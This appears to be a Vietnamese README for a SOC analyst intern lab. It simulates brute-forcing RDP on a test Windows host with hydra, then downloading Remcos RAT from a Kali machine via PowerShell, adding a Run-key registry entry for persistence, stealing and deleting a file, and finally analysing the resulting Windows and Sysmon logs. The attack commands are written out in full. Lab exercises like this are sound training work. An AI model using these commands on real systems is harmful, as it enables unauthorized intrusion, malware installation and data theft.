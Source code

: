# SOC Analyst Intern Project - RDP Brute-force & Remcos RAT Attack Simulation

# Mô tả Dự Án
Dự án mô phỏng kịch bản tấn công vào hệ thống Windows bằng phương pháp brute-force dịch vụ RDP, sau đó triển khai mã độc Remcos (Remote Access Trojan) để thực hiện Remote Code Execution (RCE), đánh cắp file và xóa dấu vết. Bài lab nhằm rèn luyện kỹ năng phát hiện, điều tra và phân tích sự cố trong vai trò SOC Analyst.

# Môi Trường Thực Hiện

# Windows 10 (IP: 192.168.1.5)
   - Tắt Windows Firewall
   - Bật Remote Desktop (RDP), mở port 3389
# Kali Linux (IP: 192.168.1.137)
   - Mã độc Remcos v6.1.0 Light (tải từ trang chủ Remcos)
# Điều kiện 2 máy ping được nhau
# I,Các Bước Thực Hiện
# 1. Khai Thác Brute-force Dịch Vụ RDP

Tạo file user.txt và pass.txt trên Kali

Sử dụng nmap để quét cổng 3389:

nmap -p 3389 192.168.1.5

Sử dụng hydra brute-force RDP:

hydra -t 1 -w 3 -L user.txt -P pass.txt rdp://192.168.1.5

Kết quả thành công:

Username: nhatnm

Password: 23032004

# 2. Triển Khai Mã Độc Remcos

Dựng HTTP server bằng Python:

python3 -m http.server 8000

Tải mã độc từ máy Kali về máy Windows:

powershell -c "Invoke-WebRequest -Uri http://192.168.1.137:8000/'Remcos v6.1.0 Light.exe' -OutFile C:\Users\Public\remcos.exe"

Thêm registry để thiết lập persistence:

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v remcos /t REG_SZ /d "C:\Users\Public\remcos.exe"

# 3. Thực Thi Tấn Công RCE và Xóa File

Thực hiện điều khiển từ xa qua Remcos

Đánh cắp file matma.txt từ thư mục: C:\Users\<user>\Desktop\bimat\

Xóa file gốc sau khi lấy cắp thành công

# Ii,Phân Tích LOG Sau Tấn Công

# 1. Phân Tích Log Windows

Event ID 4625: Nhiều lần đăng nhập thất bại (brute-force)

Event ID 4624: Đăng nhập thành công từ xa qua RDP

Sysmon ID 3: Ghi nhận kết nối mạng bất thường

Sysmon ID 1: Ghi nhận quá trình thêm registry (persistence)

# 2. Kết Luận

Nguồn tấn công: 192.168.1.137 (máy Kali)

Đích: 192.168.1.5 (máy Windows)

Cổng: 43064

Hostname tấn công: nhat.lan

Các giai đoạn:

Brute-force mật khẩu

Đăng nhập thành công

Cài đặt và thực thi Remcos RAT

RCE, đánh cắp dữ liệu và xóa file



